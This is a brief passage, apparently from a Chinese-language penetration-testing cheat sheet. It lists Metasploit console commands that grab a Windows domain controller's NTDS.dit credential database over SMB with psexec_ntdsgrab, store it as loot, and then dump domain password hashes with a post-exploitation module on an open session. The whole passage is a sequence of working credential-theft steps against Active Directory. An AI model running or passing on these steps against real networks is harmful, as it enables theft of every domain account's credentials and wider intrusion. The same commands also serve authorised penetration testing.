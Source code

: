 	>use auxiliary/admin/smb/psexec_ntdsgrab
	>set rhost smbdomain smbuser smbpass
	>exploit
	Ntds.dit文件存在/root/.msf4/loot
	后渗透模块
	>use windows/gather/credentials/domain_hashdump
	>set session 1